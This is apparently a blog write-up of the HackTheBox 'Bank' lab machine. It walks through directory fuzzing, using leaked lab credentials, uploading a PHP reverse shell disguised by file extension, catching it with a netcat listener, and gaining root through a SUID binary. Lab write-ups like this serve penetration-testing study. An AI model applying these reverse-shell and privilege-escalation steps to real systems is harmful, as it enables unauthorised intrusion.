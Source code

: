 ```yaml
---
title: Bank writeup
date: 2022-06-17 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/boxes/bank/
image: # Thumbnail 
  src: Bank.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This was one of the easier boxes on the platform. With comments left in the HTML source code and a SUID binary giving root access immediatly. In any case, you can learn some fuzzing on this box since it is required to find the credentials for the ticket page. 

## Foothold

We start by adding bank.htb to our `/etc/hosts`{: .filepath} file. When visiting the site we get greeted with a login page:

![Login page](index.png)

You could try to perform some SQL-injection to bypass the login, but it wont work. Instead we fuzz for directories via gobuster:
```console
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/01/25 20:46:06 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/login.php            (Status: 200) [Size: 1974]                
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/] 
/logout.php           (Status: 302) [Size: 0] [--> index.php]                 
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]    
/server-status        (Status: 403) [Size: 288]                               
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
                                                                                       
===============================================================                                                                                                                                                                             
2022/01/25 21:26:59 Finished                                                                                                                                                                                                                
===============================================================
```

Entering the `/balance-transfer`{: .filepath} dir we find a lot of files. All have the same size, except for one which is much smaller:

![content of /balance-transfer sorted by size](smallfile.png)

Contents of the file can be found below:
```txt
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Using the credentials to login, we can access a page where we can upload a file. If we view the source code we can see that the developer left a comment saying that any file endning in .htb will be executed as php for debugging purposes.

![Web page source code](source.png)

Uploading a standard php reverse shell and renaming it to something ending in .htb will give a reverse shell when trying to access it after uploading it via the ticket functionality.

![Malicious ticket](ticket.png)

Clicking on the ticket will execute the php code. 
## Privilege escalation
Receiving the reverse shell, we start out by looking at SUID binaries:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/banking]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.29.200] 44466
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:14:04 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

One stands out immediatly, namely the file `/var/htb/bin/emergency`{: .filepath}

Simply running it gives us root access. Rooted!